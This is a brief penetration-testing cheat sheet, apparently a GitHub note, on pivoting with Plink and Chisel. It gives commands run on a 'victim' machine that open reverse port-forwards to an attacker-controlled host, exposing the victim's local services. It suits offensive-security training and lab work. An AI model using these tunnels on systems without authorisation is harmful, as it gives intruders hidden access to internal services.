 # Plink.exe
Plink allow port forwarding on linux hosts.

From victim machine, we can listen on the attacker's port and forward it to a local port.
``` plink.exe -l <username> -pw <password> <ip> -R 8888:127.0.0.1:8888 ```

# Chisel
To obtain the same results as above:
(Run on attacker)
``` chisel.exe server -p 9000 --reverse ```
(Run on victim)
``` chisel.exe client <attacker ip>:9000 R:8888:127.0.0.1:8888 ```

This way, any traffic sent from my kali on port 8888 will be sent to victim's local loopback IP on port 8888.
